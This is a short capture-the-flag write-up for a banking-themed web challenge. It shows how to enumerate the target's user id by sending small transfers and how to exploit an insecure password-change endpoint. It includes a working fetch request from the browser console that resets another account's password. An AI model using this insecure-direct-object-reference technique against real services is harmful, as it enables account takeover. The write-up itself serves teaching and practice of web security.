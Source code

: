 Let's register a user and log in. We find a profile page with our account balance, username and a field that we can use
to store any secret "which is perfectly safe" for ourselves. There is a password management page, a money transfer page 
and a logout option.

We can find Terry Benedict's user id by simply transfering $1 to each account starting from 1. 
Soon after we reach user id 12 and get this message:

<img width="488" alt="image" src="https://user-images.githubusercontent.com/6275775/230441813-e1a856fb-3437-4163-a88c-6c587c3fc014.png">


Next step is overriding Benedict's password with the vulnerable password page which takes a user supplied
user-id and the new password. Don't overcomplicate it, set it to 'a'.

Staying in our browser we can issue a fetch request right from the developer console:

```
fetch("https://benedicts.secchallenge.crysys.hu/change_password", {

  "headers": {
    "content-type": "application/x-www-form-urlencoded",
  },
  
  "body": "account_number=12&password=a&password_confirm=a",
  "method": "POST",
  "mode": "cors",
  "credentials": "include"
});
```
That's it. We can log in now and grab the flag from Benedict's profile:

<img width="488" alt="image" src="https://user-images.githubusercontent.com/6275775/230442994-553a3a70-a9d0-4fc1-ab7a-cb44f8ba238d.png">
